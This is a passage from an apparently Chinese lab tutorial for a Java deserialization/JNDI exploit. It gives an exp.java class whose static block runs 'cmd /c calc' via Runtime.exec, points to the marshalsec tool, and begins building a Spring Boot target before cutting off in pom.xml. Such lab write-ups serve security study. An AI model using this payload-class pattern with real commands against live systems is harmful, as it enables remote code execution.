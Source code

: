 工具：

```java
exp.java
marshalsec-0.0.3-SNAPSHOT-all.jar
```

1. exp.java

   ```java
   import java.io.IOException;
   public class exp {
   	static{
   		try {
   			java.lang.Runtime.getRuntime().exec(new String[]{"cmd","/c","calc"});
   		} catch (IOException e) {
   			e.printStackTrace();
   		}
   	}
   	public static void main(String[] args) {
   		
   	}
   }
   ```

2. marshalsec-0.0.3-SNAPSHOT-all.jar

   ```java
   1. 下载后项目后通过 Maven 编译生成 marshalsec-0.0.3-SNAPSHOT-all.jar
   https://github.com/mbechler/marshalsec.git
   2. 直接百度找现成的吧
   ```

   

#### 1. 先搭建靶机环境，使用 SpringBoot

1. pom.xml

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <project xmlns="http://maven.apache.org/POM/4.0.0"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
       <modelVersion>4.0.0</modelVersion>
   
       <groupId>top.hkyzf</groupId>
       <artifactId>boot-helloworld</artifactId>
       <version>1.0-SNAPSHOT</version>
       <!-- 不写默认为 jar 包 -->
       <packaging>jar</packaging>
   
       <!-- 引入 Spring Boot 父依赖 -->
       <parent>
           <groupId>org.springframework.boot</groupId>
           <artifactId>spring-boot-starter-parent</artifactId>
           <version>2.4.3</version>
       </parent>
   
       <!-- 引入 Web 开发场景 -->
       <dependencies>
           <dependency>
               <groupId>org.springframework.boot</groupId>
               <artifactId>spring-boot-starter-web</artifactId>
               <exclusions><!-- 去掉springboot默认配置 -->
                   <exclusion>
                       <groupId>org.springframework.boot</groupId>
                       <artifactId>spring-boot-starter-logging</artifactId>
   ```